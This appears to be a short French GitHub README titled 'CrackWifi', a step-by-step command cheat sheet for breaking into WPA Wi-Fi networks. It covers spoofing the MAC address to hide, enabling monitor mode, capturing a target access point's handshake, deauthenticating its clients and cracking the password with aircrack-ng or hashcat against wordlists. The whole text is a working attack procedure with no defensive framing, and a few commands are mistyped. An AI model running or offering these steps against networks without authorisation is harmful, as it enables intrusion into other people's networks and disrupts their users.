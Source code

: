 # CrackWifi

airodump-ng

aireplay-ng 

aircrack-ng 

hashcat

iwconfig

# desactiver carte wifi pour changer l'adresse MAC (se cacher)
ifconfig wlan0 down 

changement d'adresse MAC
macchanger –m XX:XX:XX:XX:XX:XX wlan0

# reactiver carte wifi
ifconfig wlan0 up

# passer la carte en mode monitor
iwconfig wlan0 mode monitor 
airmong-ng start wlan0

# scanner réseaux disponibles 
airodump-ng -–encrypt XX wlan0

# ecouter et desauthentifier dans 2 terminaux (tâches fait en 
airodump-ng -w hack1 -c 2 --bssid xx:xx:xx:xx:xx:xx wlan0mon
-c 2 = channel 
hack1 = les fichiers qui vont être créés
xx:xx:xx:xx:xx:xx = mac de la borne cible

# desauthentifier 
aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan0mon
xx:xx:xx:xx:xx:xx = mac de la borne cible

# crack mot de passe
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt....

# Bonus possible d'utiliser hashcat mais l'extension cap2hccapx est nécessaire:

present dans le paquet hashcatutils

conversion du fichier cap en hccapx pour hashcat

cap2hccapx info.cap WPA2_capture.hccapx

puis execute hashcat en spécifiant le "mask" de chiffrement et enregistrement dans un fichier dans l'exemple WPA2_resolved

hashcat -m 2500 -a 6 -O -o WPA2_resolved.txt WPA2_capture.hccapx D:\Dictionnaires\ALL\dico_1.txt D:\Dictionnaires\ALL\dico_2.txt
